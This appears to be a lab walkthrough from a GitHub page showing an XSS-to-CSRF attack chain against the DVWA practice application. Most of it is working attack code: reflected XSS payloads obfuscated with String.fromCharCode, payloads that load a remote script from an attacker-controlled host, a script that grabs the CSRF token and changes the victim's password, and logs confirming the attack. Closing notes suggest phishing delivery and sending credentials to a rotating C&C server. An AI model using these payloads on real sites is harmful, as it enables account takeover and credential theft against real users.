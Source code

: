 #### 4.1. XSS + CSRF bypass (high security DVWA)

Attempting CSRF bypass via XSS.
Note: SoP does not allow access to the DOM of an `iframe` - therefore we cannot fetch the CSRF token from the target page.

#### 4.1.1. find XSS on victim website

```javascript
<!-- alert(123) -->
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,50,51,41))>
```


#### 4.1.2. prepare JavaScript payload (as remote JS file) that collects CSRF token - `x.js`

```javascript
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
if (xhr.readyState === 4)  { 
	res.innerHTML = xhr.responseText;
	user_token = res.querySelector('[name="user_token"]').value;
}};
xhr.send(null);
```


#### 4.1.3. prepare XSS payload that loads and executes remote JS file

##### a) low security
```
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror="var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);">
```

##### b) high security (no JS errors, hidden image)

Decoded:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval("var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);") style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```

Encoding for `eval()`:
```js
x = "abcd";
var c=[]; for (i=0; i<x.length;i++) {c.push(x[i].charCodeAt())}
// c = [97, 98, 99, 100]
// c.toString() // more reliable to display all data for the payload
String.fromCharCode(97, 98, 99, 100) // "abcd"
```

Payload test for `console.log`:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval(String.fromCharCode(99,111,110,115,111,108,101,46,108,111,103,40,49,50,51,41)) style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```

Final payload:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59)) style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```
Note: payload could be fully URL-encoded when used together with phishing/social-engineering attack `(^_^)`


##### c) alternative payload (placing the the script inside `<head></head>`)
```
var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.getElementsByTagName('head').appendChild(x);"
```


#### 4.1.4. prepare JavaScript payload (as remote JS file) that runs CSRF attack via XSS

File: `x.js`

```javascript
function csrfChangePass(token, pass) {
   var xhr = new XMLHttpRequest();
   var params = '?user_token=' + token + '&password_new=' + pass + '&password_conf=' + pass + '&Change=Change';
   
   xhr.open("GET", "/vulnerabilities/csrf/" + params, true);
   xhr.withCredentials = true;
   var body = ""; // params data could be here if POST request
   var aBody = new Uint8Array(body.length);
   for (var i = 0; i < aBody.length; i++)
      aBody[i] = body.charCodeAt(i); 
   xhr.send(new Blob([aBody]));
}

history.pushState('', '', document.location.pathname)
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
   if (xhr.readyState === 4)  {
      res.innerHTML = xhr.responseText;
	  user_token = res.querySelector('[name="user_token"]').value
	  if (user_token !== null) {
            csrfChangePass(user_token, '123');
	  }
   }
};
xhr.send(null);
```


#### 4.1.5. inspect logs server-side to check desired outcome

```
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/xss_r/?name=Alex%3Cimg%20onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59))%20style=%22width:0;height:0;border:0;%22%20src=%22/dvwa/images/logo.png%22%3E HTTP/1.1" 200 1961 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NO LOGS NO CRIME] "GET /vulnerabilities/csrf/ HTTP/1.1" 200 1770 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/csrf/?user_token=da735f06068570ed350a8237ab6ce3b0&password_new=123&password_conf=123&Change=Change HTTP/1.1" 200 1783 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
```


#### 4.1.6. Attack flow

- victim executes XSS payload on their behalf (in the browser)
- XSS payload loads remote JS file that executes malicious code in the context of the current user-session
  * 1st XHR request to fetch the CSRF token
  * 2nd XHR request to change user password on form protected by CSRF token
- current user password is changed
- extra: attacker can log user-name & password by sending XHR requests to their C&C server
- extra: after successful logging attacker can tear-down the C&C endpoint and spawn another (random) one for further affairs
